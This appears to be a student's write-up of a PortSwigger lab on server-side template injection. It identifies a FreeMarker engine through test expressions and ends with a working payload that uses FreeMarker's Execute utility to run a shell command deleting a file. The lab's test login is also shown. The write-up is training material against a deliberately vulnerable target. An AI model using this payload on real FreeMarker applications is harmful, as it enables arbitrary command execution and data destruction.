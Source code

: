 # [Lab: Server-side template injection using documentation](https://portswigger.net/web-security/server-side-template-injection/exploiting/lab-server-side-template-injection-using-documentation)

## Lab

This lab is vulnerable to  [server-side template injection](https://portswigger.net/web-security/server-side-template-injection). To solve the lab, identify the template engine and use the documentation to work out how to execute arbitrary code, then delete the  `morale.txt`  file from Carlos's home directory.

You can log in to your own account using the following credentials:

`content-manager:C0nt3ntM4n4g3r`

## Analysis

Login to content manager account.

After login, there is an special function that only authorized account have, that is `edit template`.

Play around this function:
![detection.png](./../img/lab-3-detection.png)

=> freemarker

## Exploit

read:

- <https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#freemarker-java>
- <https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#freemarker>

The template can be :

- Default: ${3*3} => ok
- Legacy: #{3*3} => ok
- Alternative: [=3*3] since FreeMarker 2.3.4 => fail

First try hehe:
![attempt-1.png](./../img/lab-3-exploit-attempt-1.png)

Solve lab:

```html
<p>Hurry! Only ${"freemarker.template.utility.Execute"?new()("rm morale.txt")} left of ${product.name} at ${product.price}.</p>
```

## References

- <https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#freemarker-java>
- <https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#freemarker>
